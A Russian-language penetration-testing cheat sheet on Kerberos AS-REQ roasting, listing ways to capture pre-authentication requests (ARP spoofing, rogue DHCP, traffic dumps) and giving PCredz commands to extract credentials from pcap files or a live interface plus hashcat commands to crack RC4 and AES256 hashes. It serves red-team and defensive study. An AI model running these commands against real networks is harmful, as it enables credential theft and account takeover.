 # AS-REQ Roasting

### **Условие для проведения атаки**:

* Получение KRB\_AS\_REQ сообщения с включенной предварительной аутентификацией

### **Варианты выполнения условия**:

* Сообщение можно получить в результате атаки, направленной на перехват сетевого трафика (ARP spoofing, ICMP redirect, поддельный DHCP сервер, IPv6 spoofing).
* Сообщение можно извлечь из дампа сетевого трафика ([PCredz](https://github.com/lgandx/PCredz))

### **Команды для проведения атаки в Linux**:

Извлечение аутентификационных данных из pcap файла:

```sh
Pcredz -f $filepath
```

Извлечение аутентификационных данных из всех pcap файлов в папке:

```sh
Pcredz -d $dir_path
```

Извлечение аутентификационных данных при прослушивании сетевого интерфейса

```sh
Pcredz -i $interface_name -v
```

Hashcat:

Если штамп времени зашифрован с использованием RC4:

```sh
hashcat -m 7500 $AS_Req_rc4_hashes $dictionary
```

В случае AES256:

```sh
hashcat -m 19900 $AS_Req_AES256_hashes $dictionary
```
